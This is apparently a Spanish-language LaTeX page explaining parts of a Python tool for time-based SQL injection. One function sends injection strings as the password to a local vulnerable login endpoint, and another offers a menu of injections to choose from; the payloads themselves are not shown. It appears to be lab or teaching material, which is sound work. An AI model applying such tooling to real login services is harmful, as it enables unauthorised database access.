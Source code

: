 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
    def llamada_api(inyeccion):
        data = {
            "username": 'user1',
            "password": inyeccion
        }

        response = requests.post("http://127.0.0.1:5000/login/postgres/time_based", json=data)

        return response
\end{lstlisting}

\textbf{Explicación:}  
\begin{itemize}
\item `llamada\_api`: Esta función envía una petición POST al endpoint vulnerable, utilizando un diccionario JSON con un `username` fijo (`user1`) y una `password` que en realidad contiene la inyección SQL.
\item Devuelve la respuesta (`response`) que el servidor genera tras recibir la petición.
\end{itemize}


\begin{lstlisting}[language=Python]
    def menu_inyecciones():
        print(colored("[+] Elige una inyección introduciendo su numero:", "red"))
        lista_inyecciones = list(dic.diccionario_inyecciones.keys())
        while True:
            for i, iny in enumerate(lista_inyecciones):
                print(colored(f"{i + 1}", "magenta") + f":{iny.title()}")

            inyeccion = input("Inyección: ")
            try:
                if int(inyeccion) - 1 < len(lista_inyecciones):
                    return dic.diccionario_inyecciones[lista_inyecciones[int(inyeccion) - 1]]
                else:
                    raise Exception
            except Exception:
                print(colored("[!] Introduce un numero valido", "red"))
\end{lstlisting}

\textbf{Explicación:}  
\begin{itemize}
\item `menu\_inyecciones`: Presenta al usuario un menú de inyecciones disponibles, listando las llaves del diccionario de inyecciones.
\item El usuario elige la inyección mediante su número asociado. Si el número es válido, la función devuelve la inyección correspondiente; de lo contrario, solicita de nuevo una entrada válida.
\end{itemize}
\end{document}
